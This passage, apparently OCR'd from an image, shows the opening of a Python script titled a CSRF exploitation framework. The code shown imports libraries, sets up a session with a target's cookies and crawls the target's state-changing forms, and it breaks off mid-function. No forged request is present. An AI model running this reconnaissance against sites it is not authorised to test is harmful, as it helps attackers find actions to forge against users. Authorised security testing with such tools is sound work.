 ```python
#!/usr/bin/env python3
"""
Advanced CSRF Exploitation Framework
Author: S. Tamilselvan
Purpose: Comprehensive CSRF vulnerability assessment and exploitation
"""

import requests
import re
from bs4 import BeautifulSoup
import urllib.parse
import json
import time
from selenium import webdriver
from selenium.webdriver.common.by import By
import base64
import hashlib
import threading
from concurrent.futures import ThreadPoolExecutor

class AdvancedCSRFExploiter:
    def __init__(self, target_url, session_cookies=None):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
        self.csrf_tokens = {}
        self.operations = []
        
        if session_cookies:
            self.session.cookies.update(session_cookies)
    
    def discover_state_changing_operations(self):
        """Discover forms and AJAX endpoints that change application state"""
        print("[*] Discovering state-changing operations...")
        operations = []
        
        try:
            response = self.session.get(self.target_url)
            soup = BeautifulSoup(response.text, 'html.parser')
            
            # Find all forms
            forms = soup.find_all('form')
            for form in forms:
                action = form.get('action', '')
                method = form.get('method', 'GET').upper()
                
                # Focus on state-changing methods
                if method in ['POST', 'PUT', 'DELETE', 'PATCH']:
                    inputs = []
                    for input_tag in form.find_all(['input', 'textarea', 'select']):
                        input_info = {
                            'name': input_tag.get('name'),
                            'type': input_tag.get('type', 'text'),
                            'value': input_tag.get('value', ''),
                            'required': input_tag.has_attr('required')
                        }
                        inputs.append(input_info)
                    
                    operations.append({
                        'type': 'form',
                        'action': urllib.parse.urljoin(self.target_url, action),
                        'method': method,
                        'inputs': inputs,
```